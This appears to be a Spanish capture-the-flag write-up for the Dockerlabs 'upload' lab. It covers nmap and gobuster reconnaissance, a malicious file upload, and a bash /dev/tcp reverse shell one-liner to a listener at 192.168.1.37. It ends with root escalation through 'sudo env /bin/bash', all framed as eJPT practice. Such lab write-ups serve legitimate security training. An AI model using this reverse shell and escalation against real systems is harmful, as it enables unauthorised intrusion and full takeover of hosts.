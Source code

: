 Máquina upload

Iniciamos como siempre con la rutina de reconocimiento de nmap:

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Target
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 18:13 CEST
Initiating ARP Ping Scan at 18:13
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 18:13, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 18:13
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 18:13, 0.78s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-18 18:13:57 CEST for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

```
nmap -p80 -sCV --min-rate 5000 172.17.0.2 -oN TargetsCV   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 18:14 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
```

Bueno en nmap no vemos casi nada raro simplemente un página web, vamos a verla

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/5933723f-eead-4ce9-bb5c-77e7b3ff5449)

Bueno teniendo en cuenta que es una máquina facil, pues viendo esta captura ya podemos pensar en una subida de arhivos maliciosa,
para complicarlo un pelin, no vamos a utilizar el script básico de monkey, crearemos nosotros mismos el archivo malicioso, pero antes
de hacer nada hay que saber donde esta la ruta donde podemos ejecutar el archivo una vez subido, para eso vamos a fuzzear un poquito:

```
gobuster dir -u "http://172.17.0.2" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/server-status        (Status: 403) [Size: 275]
Progress: 116848 / 207644 (56.27%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 121522 / 207644 (58.52%)
===============================================================
Finished
===============================================================
```

Pues bueno ya estaría, supongo que se guardara también con el nombre que le pongamos así que vamos a crear el archivo malicioso:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/4dbeffcd-4e1f-4e85-a8c4-bcace653ff2e)

Bueno ya tenemos ejecución remota de comandos, ahora la reverse shell:

```
bash -c "bash -i >%26 /dev/tcp/192.168.1.37/443 0>%261" # nc -nlvp 443
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/1a06caeb-5703-4164-9a08-da5d8fb84b99)

Una vez entablada la reverse shell hacemos tratamiento de la tty:

```
script /dev/null -c bash
{ctrl+z}
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Bueno para la escalada de privilegios empezamos por sudo -l en el cual ya nos encontramos con algo:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/6e3c4c9f-8bdf-4904-abf9-6d66c2cba6be)

Esto lo que esta haciendo es que podemos ejecutar el comando env con privilegios, esto se explota de la siguiente manera:

```
sudo env /bin/bash
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/bdb7e0b1-cad5-496f-82ee-3f15e00d9cdf)

Teniendo en cuenta que estas máquinas van relacionadas para entrenar para el certificado eJPT esta bien ya que podemos entrenar la subida de archivos,
lo cual es esencial en el hacking ademas de poder crear nuestro payload y una escalada facil pero efectiva en los estudios para la eJPT.

Dificultad 1/5
Diversión 4/5
